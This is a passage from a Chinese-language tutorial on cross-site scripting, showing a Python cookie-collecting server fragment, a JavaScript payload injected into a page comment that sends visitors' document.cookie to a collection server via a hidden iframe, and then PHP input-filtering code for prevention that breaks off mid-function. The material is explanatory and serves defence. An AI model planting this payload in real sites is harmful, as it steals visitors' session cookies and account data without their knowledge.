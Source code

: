 ```
def show(cookies, db):
    SQL = 'INSERT INTO "myxss" ("cookies") VALUES (?)'
    try:
        db.execute(SQL, cookies)
    except:
        pass
    return ""

if __name__ == "__main__":
    app.run()
```

然后在某一个页面的评论中注入这段代码：


```
// 用 <script type="text/javascript"></script> 包起来放在评论中

(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

于是每个访问到含有该评论的页面的用户都会遇到麻烦——他们不知道背后正悄悄的发起了一个请求，是他们所看不到的。而这个请求，会把包含了他们的帐号和其他隐私的信息发送到收集服务器上。

#### 预防 ####

* 输入校验，代码过滤，特殊字符主要是“””，“’”，“&”，“<”，“>”转义

```
以php为例，可以使用其内建函数进行代码过滤
//清理空格
$string = trim ( $string );
//过滤html标签
$string = strip_tags ( $string );
//将字符内容转化为html实体
$string = htmlspecialchars ( $string );

<?PHP
function clean_xss(&$string, $low = False)
{
    if (! is_array ( $string ))
    {
        //清理空格
        $string = trim ( $string );
        //过滤html标签
        $string = strip_tags ( $string );
        //将字符内容转化为html实体
        $string = htmlspecialchars ( $string );
        if ($low)
        {
            return True;
        }
        $string = str_replace ( array ('"', "\\", "'", "/", "..", "../", "./", "//" ), '', $string );
```